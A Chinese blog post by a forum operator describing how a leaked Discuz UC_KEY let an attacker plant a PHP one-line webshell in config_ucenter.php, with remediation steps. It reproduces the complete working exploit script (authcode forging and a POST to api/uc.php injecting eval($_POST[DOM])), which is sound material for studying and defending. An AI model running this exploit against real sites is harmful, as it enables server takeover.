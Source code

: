 ```yaml
---
title: 140212 Discuz UC_KEY泄露导致获得WebShell
author: 张 清月
layout: post
permalink: /2735.html
views:
  - 13
categories:
  - Code
tags:
  - discuz
  - uc_key
  - webshell
---
```

吃饭的时候同事发了个微信给我，说社区头像都显示不了了，当时没太在意，估计是cdn的问题。回来后打开网站自己看了下，乖乖把我吓坏了竟然出现了这么个情况。

所有头像地址都变为：

<pre class="brush: php; title: ; notranslate" title="">http://xxx\');eval($_POST[DOM]);//avastar.php?uid=123&#038;size=middle

</pre>

一看就知道是被人黑了，估计还拿到了webshell.

果断看了下代码做了断点调试，确实是ucenterurl中的值被更改了

<pre class="brush: php; title: ; notranslate" title="">function avatar($uid, $size = 'middle', $returnsrc = FALSE, $real = FALSE, $static = FALSE, $ucenterurl = '') {
	global $_G;
	if($_G['setting']['plugins']['func'][HOOKTYPE]['avatar']) {
		$_G['hookavatar'] = '';
		$param = func_get_args();
		hookscript('avatar', 'global', 'funcs', array('param' =&gt; $param), 'avatar');
		if($_G['hookavatar']) {
			return $_G['hookavatar'];
		}
	}
	static $staticavatar;
	if($staticavatar === null) {
		$staticavatar = $_G['setting']['avatarmethod'];
	}

	$ucenterurl = empty($ucenterurl) ? $_G['setting']['ucenterurl'] : $ucenterurl;
	$size = in_array($size, array('big', 'middle', 'small')) ? $size : 'middle';
	$uid = abs(intval($uid));
	if(!$staticavatar && !$static) {
		return $returnsrc ? $ucenterurl.'/avatar.php?uid='.$uid.'&size='.$size : '&lt;img src="'.$ucenterurl.'/avatar.php?uid='.$uid.'&size='.$size.($real ? '&type=real' : '').'" /&gt;';
	} else {
		$uid = sprintf("%09d", $uid);
		$dir1 = substr($uid, 0, 3);
		$dir2 = substr($uid, 3, 2);
		$dir3 = substr($uid, 5, 2);
		$file = $ucenterurl.'/data/avatar/'.$dir1.'/'.$dir2.'/'.$dir3.'/'.substr($uid, -2).($real ? '_real' : '').'_avatar_'.$size.'.jpg';
		return $returnsrc ? $file : '&lt;img src="'.$file.'" onerror="this.onerror=null;this.src=\''.$ucenterurl.'/images/noavatar_'.$size.'.gif\'" /&gt;';
	}
}
</pre>

在config/config\_ucenter.php 中的 UC\_API 的值变成了一句话木马。根据字符特征，很快找到了exp

<pre class="brush: php; title: ; notranslate" title="">&lt;?php
    $timestamp = time()+10*3600;
    $host="127.0.0.1";
    $uc_key="eapf15K8b334Bc8eBeY4Gfn1VbqeA0N5Waofq6J285Ca33i151e551g0l9f2l3dd";
    $code=urlencode(_authcode("time=$timestamp&action=updateapps", 'ENCODE', $uc_key));
    $cmd1='&lt;?xml version="1.0" encoding="ISO-8859-1"?&gt;
&lt;root&gt;
 &lt;item id="UC_API"&gt;http://xxx\');eval($_POST[DOM]);//&lt;/item&gt;
&lt;/root&gt;';
    $cmd2='&lt;?xml version="1.0" encoding="ISO-8859-1"?&gt;
&lt;root&gt;
 &lt;item id="UC_API"&gt;http://aaa&lt;/item&gt;
&lt;/root&gt;';
    $html1 = send($cmd1);
    echo $html1;
    $html2 = send($cmd2);
    echo $html2;
    
    
function send($cmd){
    global $host,$code;
    $message = "POST /api/uc.php?code=".$code."  HTTP/1.1\r\n";
    $message .= "Accept: */*\r\n";
    $message .= "Referer: ".$host."\r\n";
    $message .= "Accept-Language: zh-cn\r\n";
    $message .= "Content-Type: application/x-www-form-urlencoded\r\n";
    $message .= "User-Agent: Mozilla/4.0 (compatible; MSIE 6.00; Windows NT 5.1; SV1)\r\n";
    $message .= "Host: ".$host."\r\n";
    $message .= "Content-Length: ".strlen($cmd)."\r\n";
    $message .= "Connection: Close\r\n\r\n";
    $message .= $cmd;
	
	//var_dump($message);
    $fp = fsockopen($host, 80);
    fputs($fp, $message);
    
    $resp = '';

    while ($fp && !feof($fp))
        $resp .= fread($fp, 1024);
    
    return $resp;
}

function _authcode($string, $operation = 'DECODE', $key = '', $expiry = 0) {
    $ckey_length = 4;

    $key = md5($key ? $key : UC_KEY);
    $keya = md5(substr($key, 0, 16));
    $keyb = md5(substr($key, 16, 16));
    $keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';

    $cryptkey = $keya.md5($keya.$keyc);
    $key_length = strlen($cryptkey);

    $string = $operation == 'DECODE' ? base64_decode(substr($string, $ckey_length)) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
    $string_length = strlen($string);

    $result = '';
    $box = range(0, 255);

    $rndkey = array();
    for($i = 0; $i &lt;= 255; $i++) {
        $rndkey[$i] = ord($cryptkey[$i % $key_length]);
    }

    for($j = $i = 0; $i &lt; 256; $i++) {
        $j = ($j + $box[$i] + $rndkey[$i]) % 256;
        $tmp = $box[$i];
        $box[$i] = $box[$j];
        $box[$j] = $tmp;
    }

    for($a = $j = $i = 0; $i &lt; $string_length; $i++) {
        $a = ($a + 1) % 256;
        $j = ($j + $box[$a]) % 256;
        $tmp = $box[$a];
        $box[$a] = $box[$j];
        $box[$j] = $tmp;
        $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
    }

    if($operation == 'DECODE') {
        if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() &gt; 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
            return substr($result, 26);
        } else {
                return '';
            }
    } else {
        return $keyc.str_replace('=', '', base64_encode($result));
    }

}
?&gt;
</pre>

网上没有相关的对策不过oldjun说得很对这玩意漏洞必须满足2个条件：

<pre>1.必须知道UC_KEY，通常在配置文件里，或者ucenter的原始（没有经过修改的）数据库（应用）中；

2.配置文件config_ucenter.php必须可写。
</pre>

**说白了是因为在做cdn源的时候比较粗肢的把php源代码包含了一部分出去，所以hacker可以根据相对路径获取到uc_key的内容。**

关于如何解决:  
1：修改 config_ucenter.php 权限为不可写  
2：修改 api/uc.php 中 代码，把之注释掉  
3: 更改 uc\_key ，并且保证config\_ucenter.php中的与uc_server/data/cache/apps.php中的一致

<pre class="brush: php; title: ; notranslate" title="">if ($UC_API && is_writeable ( DISCUZ_ROOT . './config/config_ucenter.php' )) {
			if (preg_match ( '/^https?:\/\//is', $UC_API )) {
				$configfile = trim ( file_get_contents ( DISCUZ_ROOT . './config/config_ucenter.php' ) );
				$configfile = substr ( $configfile, - 2 ) == '?&gt;' ? substr ( $configfile, 0, - 2 ) : $configfile;
				$configfile = preg_replace ( "/define\('UC_API',\s*'.*?'\);/i", "define('UC_API', '" . addslashes ( $UC_API ) . "');", $configfile );
				if ($fp = @fopen ( DISCUZ_ROOT . './config/config_ucenter.php', 'w' )) {
					//@fwrite ( $fp, trim ( $configfile ) );
					@fclose ( $fp );
				}
			}
		}
</pre>

本文参考:

http://www.oldjun.com/blog/index.php/archives/76/

http://www.unhonker.com/bug/1509.html
